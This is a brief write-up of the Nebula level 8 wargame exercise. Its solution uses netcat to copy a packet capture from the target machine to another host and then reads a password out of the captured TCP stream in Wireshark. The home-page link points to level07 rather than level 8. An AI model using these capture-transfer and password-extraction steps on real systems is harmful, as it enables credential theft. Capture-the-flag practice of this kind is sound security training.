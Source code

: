 .. _nebula08:

.. role:: bash(code)
	  :language: bash

Nebula 8
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level07/

**No Source Code Given**

Solution
--------

.. code-block:: bash

$ tcpdump -qns 0 -X -r capture.pcap
$ nc -l 2001 > capture.pcap
$ nc 10.211.55.2 2001 < capture.pcap

Open wireshark and look Wireshark and go to Analize -> Follow TCP stream, this will give you the password.
      
